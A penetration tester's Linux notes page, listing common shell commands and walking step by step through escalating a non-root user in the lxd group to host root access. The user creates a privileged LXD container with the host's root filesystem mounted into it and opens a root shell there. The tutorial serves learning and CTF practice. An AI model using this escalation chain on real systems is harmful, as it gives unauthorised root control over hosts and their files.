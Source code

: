 # Linux

I wanted to list some concepts, terms and flows that are specific to Linux. Learning more about Linux has made me a better and more effcient pentration tester.

## Basic Commands

There are some commands that I use all the time. I have put together a list of the most common commands I use while doing a capture the flag event. All the commands have optional flags that can enhance what the commands do. When I need help with a command I run `man <command>` to get a more detailed description of each command. Here are the most common commands that I use:

| Command | Purpose |
| ------------- | -------------- |
| ls | Lists files and directories in the current location. |
| cd | Changes the current directory. |
| pwd | Prints the current working directory. |
| mkdir | Creates a new directory. |
| rm | Removes files or directories. |
| cp | Copies files or directories. |
| mv | Moves or renames files and directories. |
| touch | Creates an empty file or updates timestamps. |
| cat | Displays file contents. |
| nano or vim | Opens a text editor, nano is more beginner friendly. |
| chmod | Changes file permissions. |
| chown | Changes file ownership. |
| find | Searches for files and directories. |
| grep | Searches text using patterns (regex). |
| ps aux | Lists all running processes. |
| kill | Terminates processes by PID or name. |

## LXD (pronounced lex-dee)

LXD is used to manage virtual machines and system containers. It has very minimal overhead. I have used both Docker and Podman in the past and it works very similar to both.

I can create or download an image, start multiple containers from that single image and have them interact with each other.

The lxc command is used to start and stop containers. To use the lxd and lxc binaries my user was in the lxd group. The example below will allow a user that is in the lxd group but not root to do a privilege escalation to root. The neat part is that the user will be root in the container and the host will map the actions of the root user in the container to the root user on the host.

Below is an example of how to download an alpine image from github and then run the container. Some of the file names may have changed but the concept should be the same.

Step 1 - Download the image from github.

```bash
$ git clone https://github.com/saghul/lxd-alpine-builder.git
```

Step 2 - Import the image and alias it as alpine.

```bash
$ cd lxd-alpine-builder
$ lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias alpine
```

I normally check if it imported by running the following:

```bash
$ lxc image list
```

Step 3 - Create a container from the image named kwmd.

```bash
$ lxc init alpine kwmd -c security.privileged=true
```

The security.privileged=true configuration option maps the container uid 0 to the host's uid 0. In other words, the container's user is root and will run as root on the host machine.

Step 4 - Map the host hard drive to the container hard drive, I alias the drive as mydrive in this example.

```bash
$ lxc config device add kwmd mydrive disk source=/ path=/mnt/root recursive=true
```

This mounts the / directory on the host to the /mnt/root directory in the container. This combined with the security.privileged=true in step 3 is very dangerous.

Step 5 - Start the container.

```bash
$ lxc start kwmd
```

Step 6 - Enter the container with a shell.

```bash
$ lxc exec kwmd /bin/sh
```

The cursor will show up as a # character to let me know I am root.

I can now modify view or modify any file on the host directory. I just need to remember to prepend any directory with /mnt/root. Here are some examples:

- The /etc directory on the host would be /mnt/root/etc from the container.
- The /home directory on the host would be /mnt/root/home from the container.
- The /root directory on the host would be /mnt/root/root from the container.

Since I am root in the container and security.privileged=true was set, the host operating system maps any of my root container actions to the root user on the host machine.

